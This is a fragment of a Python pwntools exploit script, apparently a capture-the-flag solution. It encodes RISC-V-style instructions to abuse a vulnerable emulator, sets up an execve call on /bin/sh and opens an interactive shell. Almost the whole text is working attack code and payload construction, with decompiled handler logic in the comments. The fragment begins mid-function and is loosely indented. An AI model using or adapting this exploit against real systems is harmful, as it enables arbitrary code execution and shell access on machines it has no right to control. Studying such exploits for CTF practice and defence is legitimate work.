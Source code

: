 ```python

    # *(_QWORD *)(reg0+chunk_200000_ptr)=reg1
    init_reg1=p32(19|(0x73<<20)|1<<7|1<<15 )+p32(19|(0x50<<20)|0<<7|0<<15 ) 
    cover_payload=p32(19|(1<<20))+p32(19|(1<<12|2<<7|12<<20))
    cover_payload=cover_payload+p32(19|2<<7|2<<15|0xff0<<20)+p32(47|3<<12|2<<15|1<<20)
    cover_payload_all=b""
    for i in range(0x40):
        cover_payload_all=cover_payload_all+cover_payload
    execve_num=59
    bin_sh=0x00000000004050

    # case 0:
    #                 result = (__int64)emula;
    #                 emula->reg[dest] = emula->reg[src_1] + v8;
    #                 break;
    #  case 1:
    #                 result = (__int64)emula;
    #                 emula->reg[dest] = emula->reg[src_1] << (v8 & 0x3F);
    #                 break;
        # case 7:
        #             result = (__int64)emula;
        #             emula->reg[dest] = v8 & emula->reg[src_1];
        #             break;

    # reg[10]=0&reg[10]
    # reg[11]=0&reg[11]
    # reg[10]=reg[10]+59
    # reg[11]=reg[11]+405
    # reg[11]=reg[11]<<12
    # reg[11]=reg[11]+0xa0

    construct_arg=p32(19|7<<12|10<<7|10<<15) + p32(19|7<<12|11<<7|11<<15)
    construct_arg=construct_arg+p32(19|10<<7|10<<15|59<<20)+p32(19|11<<7|11<<15|0x405<<20)
    construct_arg=construct_arg+p32(19|1<<12|11<<7|11<<15|12<<20)+p32(19|11<<7|11<<15|0xa0<<20)

    payload=init_reg1+cover_payload_all+construct_arg

    # gdb.attach(p)
    # pause()
    context(os="linux",arch="amd64",log_level="debug")
    p.sendlineafter(b"maybe not standard\n", str(len(payload)).encode())
    p.sendline(str(0))
    instruct=payload
    p.send(instruct)   
    p.sendline(str(4))
    p.sendline(str(0))
    instruct=p32(0x13)   # padding
    p.send(instruct)
    p.interactive()

while(1):
    pwn()

```

